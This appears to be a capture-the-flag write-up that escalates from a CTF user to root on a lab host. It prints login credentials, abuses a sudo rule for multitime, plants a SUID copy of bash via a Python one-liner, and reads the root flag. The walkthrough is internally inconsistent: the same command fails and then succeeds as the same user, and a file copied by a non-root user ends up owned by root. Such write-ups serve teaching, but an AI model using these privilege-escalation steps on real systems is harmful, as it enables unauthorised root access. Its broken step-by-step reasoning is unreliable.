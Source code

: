 # Web Privilege Escalation Time

We are given SSH credentials for user time on port 2023:

```bsh
ssh time@ctf-18.security.cs.pub.ro -p 2023
# Password: EDBVCjNFAAzYedCX
```

After logging in, we check for sudo privileges:

```bash
sudo -l
```

Output: `User time may run the following commands on time: \n (wormhole) /usr/bin/multitime`
This means user time can run /usr/bin/multitime as wormhole. We use this to spawn a shell:

```bash
sudo -u wormhole /usr/bin/multitime /bin/bash
```

Now we are wormhole. Listing `ls -la /home/wormhole` the home directory reveals a script: `-rwxrwxr-x 1 wormhole wormhole   75 Jul 22 13:29 time-travel.py`

Script contents:

```python
import os; os.system("cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash")
```

This copies */bin/bash* to */tmp/rootbash* and makes it **SUID**, meaning it will execute with root privileges. Running it directly as wormhole fails:

```bash
python3 /home/wormhole/time-travel.py
# cp: cannot create regular file '/tmp/rootbash': Permission denied
```

We run it via sudo from time: `sudo -u wormhole /usr/bin/multitime python3 /home/wormhole/time-travel.py`

Check if the file was created and has the correct permissions:

```bash
ls -l /tmp/rootbash
# -rwsr-sr-x 1 root root ...
```

Now we execute the root shell: `/tmp/rootbash -p`

Inside the root shell, retrieve the flag: `cat /root/flag.txt`. Flag: **SSS{y0u_4r3_k1ll1ng_t1m3}**

